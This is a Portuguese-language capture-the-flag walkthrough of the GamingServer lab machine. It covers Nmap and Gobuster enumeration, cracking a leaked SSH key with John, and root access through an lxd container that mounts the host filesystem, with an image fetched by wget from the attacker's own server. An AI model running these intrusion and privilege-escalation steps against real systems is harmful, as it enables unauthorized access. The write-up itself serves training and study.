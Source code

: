 # _**GamingServer CTF**_
![](game.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan Nmap
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```  
![](scan_nmap.jpg)

Vamos também realizar um scan com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```  
![](scan_gobuster.jpg)  

Vamos investigar cada um destes diretórios
* index.html [1]
* robots.txt [2]
* secret [3]
* upload [4]  

<mark>Primeiro diretório</mark>  
Temos um nome no código da página: <mark>john</mark>  

![](john.jpg)  

<mark>Segundo diretório</mark>  
Apenas o conteúdo sobre _user-agent_ e também um diretório: <mark>/uploads</mark>  

![](user-agent.jpg)  

<mark>Terceiro diretório</mark>  
Parece que temos um arquivo secreto. Uma chave  

![](secret.jpg)

Vamos fazer o download com o comando ```wget```
> ```bash
> wget http://[ip_address]:80/secret/secretKey
> ```  
![](key.jpg)

## _**Ganhando acesso**_

Podemos tentar quebrar a chave RSA com <mark>John</mark>
> ```bash
> ssh2john secretKey > key.hash
> ```
> ```bash
> john -w=../wordlists/rockyou.txt key.hash
> ```  
![](john_crack.jpg)

Temos uma senha!!!  
Temos um nome descoberto e também uma senha. Podemos tentar login SSH
* username: <mark>john</mark>
* password: <mark>letmein</mark>

Vamos dar permissão para <mark>secretKey</mark> e vamos realizar login via SSH
> ```bash
> chmod 600 secretKey
> ```
> ```bash
> ssh -i secretKey john@[ip_address]
> ```  
![](ssh_login_success.jpg)

Com um ```cat user.txt``` temos nossa primeira _flag!_

## _**Escalando privilégios**_
Agora, para conseguirmos _root_, vamos começar com um simples comando
> ```bash
> sudo -l
> ```
Pede permissão com senha, e <mark>letmein</mark> não funcionou
Vamos buscar outra maneira
> ```bash
> find /bin -perm -4000
> ```  
![](bin_perm.jpg)

Um destes diretórios chama a atenção, <mark>/bin/ping</mark>
Vamos verificar com ```ls -l```  
![](ls_ping.jpg)

Isso quer dizer que é executado como _root_
Podemos escalonar privilégios através dali
Vamos tentar:
> ```bash
> echo -e '#!/bin/bash\n/bin/bash -p' > /tmp/cat
> ```
> ```bash
> chmod +x /tmp/ip
> ```
> ```bash
> export PATH=/tmp:$PATH
> ```
> ```bash
> cat /root/root.txt
> ```

Após algum tempo sem nenhum retorno, vamos ter que buscar outra opção  
Investigando a máquina, temos um _**id**_ que chama a atenção: <mark>Lxs</mark>  
Pesquisando no google, podemos escalar privilégios através dela  
Vamos executar os seguintes comandos:
> ```bash
> git clone  https://github.com/saghul/lxd-alpine-builder.git | cd lxd-alpine-builder | ./build-alpine
> ```
> ```bash
> python3 -m http.server
> ```
> ```bash
> wget [vpn_ip_address]:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz
> ```
> ```bash
> lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
> ```
> ```bash
> lxc init myimage ignite -c security.privileged=true
> ```
> ```bash
> lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
> ```
> ```bash
> lxc start ignite
> ```
> ```bash
> lxc exec ignite /bin/sh
> ```
> ```bash
> pwd
> ```
> ```bash
> cd ..
> ```
> ```bash
> ls
> ```
> ```bash
> cat root/root/root.txt
> ```
![](root_access.jpg)
